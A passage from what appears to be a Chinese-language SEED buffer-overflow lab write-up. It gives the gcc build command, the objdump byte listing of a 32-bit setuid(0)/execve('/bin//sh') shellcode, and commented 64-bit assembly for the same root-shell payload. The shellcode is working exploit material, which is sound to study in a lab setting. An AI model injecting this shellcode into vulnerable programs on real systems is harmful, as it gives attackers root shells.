 ```armasm{.line-numbers}
int $0x80
```

使用 **`gcc -nostdlib -static sh32.s -o sh32`** 命令编译上述汇编代码，然后使用 objdump -d 对编译得到二进制机器码进行反汇编。

```armasm{.line-numbers}
monica@xvm:~/csapp/seed-buffer-overflow-lab$ objdump -d sh32

sh32：     文件格式 elf32-i386

Disassembly of section .text:

08049000 <__bss_start-0x1000>:
 8049000:	31 c0                	xor    %eax,%eax
 8049002:	31 db                	xor    %ebx,%ebx
 8049004:	b0 d5                	mov    $0xd5,%al
 8049006:	cd 80                	int    $0x80
 8049008:	31 c0                	xor    %eax,%eax
 804900a:	50                   	push   %eax
 804900b:	68 2f 2f 73 68       	push   $0x68732f2f
 8049010:	68 2f 62 69 6e       	push   $0x6e69622f
 8049015:	89 e3                	mov    %esp,%ebx
 8049017:	50                   	push   %eax
 8049018:	53                   	push   %ebx
 8049019:	89 e1                	mov    %esp,%ecx
 804901b:	31 d2                	xor    %edx,%edx
 804901d:	31 c0                	xor    %eax,%eax
 804901f:	b0 0b                	mov    $0xb,%al
 8049021:	cd 80                	int    $0x80
```

#### 2.3 64-bit 形式的 shellcode

```armasm{.line-numbers}
;文件名：sh64.s
;调用 setuid(0) 函数
xorq 	%rdi, %rdi
movb	$105, %al
syscall

;%rdx = 0: execve()’s 3rd argument
xorq %rdx, %rdx
pushq %rdx
;the command we want to run
movabs $0x68732f2f6e69622f, %rax
pushq %rax
;%rdi --> "/bin//sh": execve()’s 1st argument
movq %rsp, %rdi

;argv[1] = 0
pushq %rdx
;argv[0] --> "/bin//sh"
pushq %rdi
;rsi --> argv[]: execve()’s 2nd argument
movq %rsp,%rsi

xorq %rax, %rax

;execve()’s system call number
movb $0x3b, %al
syscall
```
